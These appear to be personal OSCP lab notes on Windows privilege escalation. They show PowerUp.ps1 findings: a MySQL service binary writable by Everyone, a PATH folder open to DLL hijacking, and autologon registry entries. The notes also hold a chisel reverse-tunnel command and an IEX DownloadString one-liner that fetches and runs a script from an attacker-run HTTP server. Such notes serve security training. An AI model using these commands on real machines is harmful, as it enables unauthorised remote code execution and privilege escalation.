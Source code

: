 ```shell
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
Name                            : mysql
Check                           : Modifiable Service Files

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
Name                            : mysql
Check                           : Modifiable Service Files

ModifiablePath    : C:\Users\Alice.Walters\AppData\Local\Microsoft\WindowsApps
IdentityReference : OSCP\Alice.Walters
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\Alice.Walters\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\Alice.Walters\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\Alice.Walters\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

DefaultDomainName    : oscp.exam
DefaultUserName      : John.Howell
DefaultPassword      :
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons
```

PowerUp.Ps1 Modifiable Service Files
![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/successful powerup.ps1 on ms02.png]]

```
# email notes
.\chisel.exe —max-retry-count 5 kali IP:8000 R:1080:socks 4430:kali ip:443  
  
And to call back and invoke power up.ps1  
  
IEX (New-Object System.Net.WebClient).Downloadstring(‘[http://target1ip:4430/PowerUp.Ps1](http://target1ip:4430/PowerUp.Ps1)’)  
  
Setup http server with 443  
```
